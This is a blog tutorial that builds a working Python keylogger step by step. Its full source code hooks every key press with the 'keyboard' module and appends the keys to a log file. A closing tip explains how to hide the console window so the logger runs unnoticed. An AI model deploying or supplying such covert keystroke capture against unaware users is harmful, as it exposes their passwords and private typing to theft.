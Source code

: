 ```yaml
---
title: Designing A Simple Keylogger In Python
description: A tutorial which teaches you how to develop a simple keylogger in Python. Keyloggers are applications which are used to log keys when typed, naturally, keyloggers are not illegal unless used unlawful purposes
category: programming
excerpt: With Python, you can make a keylogger which will log the keypress of the keyboard and save the contents to a file
keywords:
  - keylogger
  - keylogging in python
  - python keylogger
tags:
  - python
date: 2021-04-24
expiry: 2023-04-24
---
```


> **Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a keyboard, [\[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keystroke recorder** or **keylogger** can be either software or [hardware](https://en.wikipedia.org/wiki/Computer_hardware).
>
> ~ [Wikipedia](https://en.wikipedia.org/wiki/Keystroke_logging) ~

The above context is extracted from Wikipedia and it explains what a keylogger is and what it does. Well, I hope most of you know what a keylogger is. Keyloggers come in two forms: software and hardware, but the one we are going to be creating today is the software form of a keylogger. It is going to listen to all the key strokes and log them to a file. Cool right?

Before we start, you need to be conversant with the python programming language, it is what we are going to use in this tutorial. Let's get started.

## Installing the required modules

We are going to use the [keyboard](https://pypi.org/project/keyboard/) module for the keylogger. To install it, open your terminal type in `pip install keyboard`. If no error occured, you are good to go.

After that, open a new python file and let's start coding :dark_sunglasses:

## Creating the logger function

```python
import keyboard #The keyboard module

def logger(event):
	print(event.name)

keyboard.on_press(logger)
keyboard.wait()
```

I can say we are done, maybe above 50% done. Let me explain the code; on the first line, we imported the `keyboard` module. Then we defined our `logger(event)` function, it takes `event` as parameter and then it print's it's `.name` out. Then to the next line, we assigned the `logger` function as a parameter to the `keyboard.on_press` method. The `keyboard.on_press` method takes a function as parameter and passes an event to it. Then to the last line, the `keyboard.wait` makes the program run without closing, it acts like a while loop.

If we are to run our code in the terminal, it runs successfully without any errors. However, there is a problem, try typing this sentence after activating the logger `"am a hacker"`.

We really might not see the effect because, when the program is ran on the terminal, each character is printed on a new line but if the results were stored in a file, this is how it will look.

```
amspaceaspacehacker
```

You might be confused, let me explain, when special keys are pressed, their names are returned and thus it makes it difficult for us to know if it was a character or special key. For example, if a user presses <kbd>space</kbd>, it will print out "space" or if <kbd>enter</kbd>, it will print out "enter", when this data is appended to a file, it just adds up to the letters and makes it difficult for us to know whether it was a special key or not.

## Solving the special key problem

Fortunately, there is a solution to this problem, the only thing we need to do is find a way to mark special keys so we will be able to differentiate between the two. To do so, we create another function called `filter(char)` which will filter the results before writing it to a file. It takes a character as parameter and surround the `char` with `[]` if it is a special key else, it will just go ahead and write it to a file.

```python
def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char
```

Now, let's try our code again.

```python
import keyboard #The keyboard module

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	print(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

Now, we are 95% done, our keylogger works as expected but it's not logging to any file. It's only writing to stdout. In order to make a real keylogger, we need to log the output to a file.

## Logging data to a file

The final step is to create a function which will write the data to a file.

```python
import keyboard #The keyboard module

def writer(data):
    with open("logs.txt","a") as file:
        file.write(data)

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	writer(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

We created a function called `writer` which takes `data` as parameter, it then writes the data to a file named "logs.txt", the file is going to be located in the directory as the python file.

Let's have a look at our `logger` function again, we called the `writer` function and we passed the `event.name` to it but we wrapped it with the `filter` function to filter it and that's our keylogger. just run your python file and you are good to go

**Tip:** You can hide the console from popping up if you save your python file with a .pyw extension
